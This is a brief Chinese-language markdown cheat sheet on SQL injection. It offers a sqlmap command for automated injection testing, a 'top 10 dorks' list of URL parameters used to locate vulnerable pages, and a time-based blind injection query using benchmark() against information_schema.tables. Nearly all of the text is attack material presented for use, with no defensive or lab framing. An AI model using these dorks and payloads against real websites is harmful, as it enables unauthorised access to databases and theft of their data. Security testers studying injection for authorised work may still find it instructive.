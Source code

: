# SQL注入

## 快速自动化测试注入

`Sqlmap -u https://url/something/*`



## top 10 Dorks

```
1.?id=
2.?cat=
3.?view=
4.?mode=
5.?tid=
6.?product_id=
7.?act=
8.?item_id=
9.?table=
10.?module=
```



## 测试语句

```
select if( table_name like 'x', benchmark(100000,sha1('_Y000!_')), concat(table_name) ) from information_schema.tables
```

